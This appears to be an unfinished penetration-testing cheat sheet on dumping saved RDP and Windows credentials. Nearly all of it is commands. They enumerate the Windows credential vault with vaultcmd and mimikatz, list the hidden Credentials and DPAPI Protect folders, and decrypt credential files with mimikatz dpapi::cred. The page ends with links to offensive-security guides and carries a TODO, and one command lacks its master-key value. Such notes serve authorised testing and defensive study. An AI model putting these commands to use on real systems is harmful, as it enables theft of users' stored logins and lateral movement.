 # Dump RDP Credentials

TODO: Fill the rest (refer to the links)

## Conditions

- `.rdp` file extensions are present in the target's workstation.

## List Vault

```
C:\> vaultcmd /listcreds:"Windows Credentials" /all

mimikatz # vault::list
```

## Credential Files

```
C:\> dir /a:h C:\Users\%username%\AppData\Local\Microsoft\Credentials

C:\> dir /a:h C:\Users\%username%\AppData\Roaming\Microsoft\Credentials

PS C:\> Get-ChildItem -Hidden C:\Users\username\AppData\Local\Microsoft\Credentials\

PS C:\> Get-ChildItem -Hidden C:\Users\username\AppData\Roaming\Microsoft\Credentials\
```

`C:\> dir C:\Users\<username>\AppData\Roaming\Microsoft\Protect\<SUID>\<GUID>`

```
mimikatz # dpapi::cred /in:C:\Users\<username>\AppData\Local\Microsoft\Credentials\ /master-key:
```

---
## References

- [HackTricks: DPAPI - Extracting Passwords](https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation/dpapi-extracting-passwords)

- [Hacking Articles: Windows Credential Manager](https://www.hackingarticles.in/credential-dumping-windows-credential-manager/)

- [The Hacker Recipes: DPAPI Protected Secrets](https://www.thehacker.recipes/ad/movement/credentials/dumping/dpapi-protected-secrets)

- [Pentestlab Blog: Dumping RDP Credentials](https://pentestlab.blog/2021/05/24/dumping-rdp-credentials/)